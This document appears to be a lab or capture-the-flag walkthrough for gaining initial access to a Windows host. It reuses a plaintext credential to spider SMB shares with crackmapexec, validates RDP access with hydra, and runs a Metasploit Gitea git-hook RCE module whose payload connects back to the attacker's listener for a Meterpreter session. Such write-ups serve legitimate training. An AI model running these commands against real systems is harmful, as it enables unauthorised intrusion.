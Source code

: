 # 14 - Windows Initial Access



### Summary of Attack Vectors (Our "Low-Hanging Fruits")
1.  **Credential Reuse:** The credentials `john:SuperSecurePass123` were found on the Linux host. We can test if these are reused on the Windows machine.
2.  **Outdated Gitea Service:** The Gitea instance is running version `1.12.4`, which is outdated and likely has public exploits.
3.  **SMB Misconfigurations:** `SMBv1` is enabled, and the `Guest` account has access to list shares, including a custom share named `Devs`.

---

## 1. Exploitation via SMB (Credential Reuse & Enumeration)

We can leverage the credentials found on the Linux host to perform a deeper enumeration of the SMB service using `crackmapexec`.

### Step 1: Validate Credentials and Enumerate the `Devs` Share
We test the `john` credentials and use the `--spider` module to recursively list the contents of the `Devs` share.

*   **Command:**
    ```shell
    crackmapexec smb 10.129.12.20 -u "john" -p 'SuperSecurePass123' --spider Devs
    ```
*   **Result:**
    *   The login is **successful** (`[+] WIN01\\john:SuperSecurePass123`), confirming password reuse.
    *   The spidering reveals a file named `tmp.ps1`.

### Step 2: Download and Analyze the Discovered File
We download the `tmp.ps1` file for offline analysis.

*   **Command:**
    ```shell
    crackmapexec smb 10.129.12.20 -u "john" -p 'SuperSecurePass123' --share Devs --get-file tmp.ps1 tmp.ps1
    ```
*   **Analysis of `tmp.ps1`:**
    *   The PowerShell script is designed to copy files from a remote share.
    *   **Critical Finding:** It contains the **hardcoded credentials** `john:SuperSecurePass123`. This is a significant security flaw and re-confirms the validity of the credentials for the `john` account on this host.

### Step 3: Verify Credentials for RDP
With confirmed valid credentials, we can check if they work for RDP access.
*   **Tool:** `hydra` can be used to test a single credential pair against the RDP service.
    ```shell
    hydra -l john -p "SuperSecurePass123" rdp://10.129.12.20
    ```
*   **Result:** **Success.** Hydra confirms the credentials are valid for RDP login.

---

## 2. Exploitation via Gitea Vulnerability (Metasploit)

Our research indicated that Gitea v1.12.4 is vulnerable. We can use the Metasploit Framework to exploit this.

### Step 1: Find and Configure the Exploit Module
*   **Search for the exploit:**
    ```
    msf6 > search gitea
    ```
    This reveals `exploit/multi/http/gitea_git_hooks_rce`.

*   **Configure the exploit:** We select the module and set the necessary options.
    ```
    msf6 > use exploit/multi/http/gitea_git_hooks_rce
    msf6 > set RHOSTS 10.129.12.20
    msf6 > set LHOST <your_tun0_ip>
    msf6 > set USERNAME john
    msf6 > set PASSWORD SuperSecurePass123
    msf6 > set target 3 # Select the "Windows Dropper" target
    ```

### Step 2: Execute the Exploit
*   **Command:**
    ```
    msf6 > run
    ```
*   **Execution Flow:**
    1.  The exploit authenticates to the Gitea web interface using the provided credentials.
    2.  It creates a new, temporary Git repository.
    3.  It leverages the vulnerability to write a malicious `git hook` containing our payload into the repository.
    4.  It makes a dummy commit to the repository, which triggers the malicious hook.
    5.  The payload executes on the server and connects back to our Metasploit listener.
*   **Result:** **Success.** We receive a **Meterpreter session**, giving us remote code execution on the target.

---

## 3. Establishing a Stable Connection (RDP)

While a Meterpreter shell is powerful, a full graphical RDP session is often more stable and user-friendly for post-exploitation. Using the credentials we verified earlier, we can connect with `xfreerdp`.

*   **Command:**
    ```shell
    xfreerdp /u:john /p:"SuperSecurePass123" /v:10.129.12.20
    ```
*   **Result:** **Success.** We gain a full, interactive desktop session on the Windows server as the user `john`.

## Summary of Initial Access

We have successfully gained initial access to the Windows target through multiple vectors.

*   **Credential Reuse:** The password for the user `john` was reused from the Linux host, granting access to SMB and RDP.
*   **Hardcoded Credentials:** The `tmp.ps1` script on an SMB share contained hardcoded credentials, re-confirming the password.
*   **Vulnerable Application:** An outdated version of Gitea was successfully exploited using Metasploit to achieve remote code execution.
*   **Stable Access:** A full graphical RDP session was established, providing a stable foothold for the next phase of the test.
